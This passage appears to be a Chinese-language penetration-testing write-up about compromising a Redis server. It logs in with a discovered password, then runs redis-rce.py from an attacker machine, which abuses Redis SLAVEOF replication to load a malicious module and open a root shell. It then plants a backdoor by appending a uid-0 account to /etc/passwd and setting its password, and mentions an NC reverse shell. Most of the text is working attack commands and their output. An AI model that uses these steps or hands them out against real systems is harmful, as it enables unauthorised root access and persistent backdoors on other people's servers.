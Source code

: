 ```bash
[root@/]# redis-cli -h 192.168.1.1 -p 6379 
192.168.1.1:6379> auth redis#fxxxxx
OK
192.168.1.1:6379> 
```

验证成功这里继续测试 redis-rce 。

[参考Redis 密码设置和查看密码](https://www.cnblogs.com/wangweiblog/p/11159153.html)

攻击机(10.10.10.10)执行

```bash
[root@redis-rce]# python redis-rce.py -r 192.168.1.1 -p 6379 -L 10.10.10.10 -f ./exp_lin.so -a redis#fxxxxx

[*] Connecting to  192.168.1.1:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.1.1:6379
[*] Setting filename
[+] Accepted connection from 192.168.1.1:6379
[*] Start listening on 10.10.10.10:21000
[*] Tring to run payload
[+] Accepted connection from 192.168.1.1:41137
[*] Closing rogue server...

[+] What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: i
[+] Interactive shell open , use "exit" to exit...
$ whoami
root
$ id
uid=0(root) gid=0(root) groups=0(root)
$ 
```

至此拿到了 root 权限，接下来添加了一个超级用户，执行如下：

```bash
$ whoami
root
$ id
uid=0(root) gid=0(root) groups=0(root)
$ echo "mx7krshell:x:0:0::/:/bin/sh" >> /etc/passwd
```

为mx7krshell用户添加了密码，因为ssh大多数都会配置不允许空密码登陆。

这里利用NC反弹了一下shell 这样会更好操作一点，如下：

```bash
[root@~]# sudo passwd mx7krshell
[root@~]# sudo passwd mx7krshell
Changing password for user mx7krshell.
New password: mx7krshell321
BAD PASSWORD: The password contains the user name in some form
Retype new password: mx7krshell321
passwd: all authentication tokens updated successfully.
[root@~]# 
```
